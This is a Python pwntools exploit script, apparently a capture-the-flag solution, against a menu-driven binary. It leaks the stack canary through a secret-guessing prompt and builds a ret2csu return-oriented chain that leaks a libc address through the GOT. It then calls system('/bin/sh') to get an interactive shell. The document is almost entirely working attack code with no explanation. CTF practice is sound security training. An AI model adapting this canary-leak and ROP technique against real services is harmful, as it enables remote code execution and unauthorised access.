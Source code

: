 ```python
def delete(idx):
    r.sendlineafter(">> \n","2")
    r.sendlineafter("index:",str(idx))

def brute(r,guess):
    name="a"*25
    r.sendlineafter(">> \n","666")
    r.sendafter("name\n",name)
    pause()
    r.sendlineafter("Do you want to guess the secret?\n",'y')
    r.sendlineafter("encrypt the secret:\n","1")
    r.sendafter("md5 of the secret\n",guess)
    data=r.recvline()
    print data

r=get_cc()
name="a"*25
r.sendlineafter(">> \n","666")
r.sendafter("name\n",name)
r.sendlineafter("Do you want to guess the secret?\n",'y')
r.sendlineafter("encrypt the secret:\n","-1")
r.close()

r=get_cc()
name="a"*0x19
r.sendlineafter(">> \n","666")
r.sendafter("name\n",name)
r.sendlineafter("Do you want to guess the secret?\n",'y')
r.sendlineafter("encrypt the secret:\n","1")
r.sendafter("Try to guess the md5 of the secret\n",hash("\x00"*0x10))
r.recvuntil(name)
cookie=u64("\x00"+r.recv(7))
r.sendafter("What`s your occupation?","a"*0xff)
r.sendafter("[Y/N]\n","Y\n")

def ret2csu(rdi,rsi,rdx,func_got):
    return p64(0)+p64(1)+p64(func_got)+p64(rdx)+p64(rsi)+p64(rdi)+p64(0x401550)+"a"*8
f={
    0x108:p64(cookie)+p64(0x603a00),
    0x118:p64(0x40156A)+ret2csu(elf.got["puts"],0,0,elf.got["puts"])+\
            ret2csu(0,0x603c00,0x100,elf.got["read"])+\
            ret2csu(0x603c08,0,0,0x603c00)
}
r.send(fit(f,filler="\x00"))
r.recvline()
libc.address=u64(r.recvline()[:-1].ljust(8,"\x00"))-libc.sym["puts"]
r.sendline(p64(libc.sym["system"])+"/bin/sh\x00")
r.interactive()

```
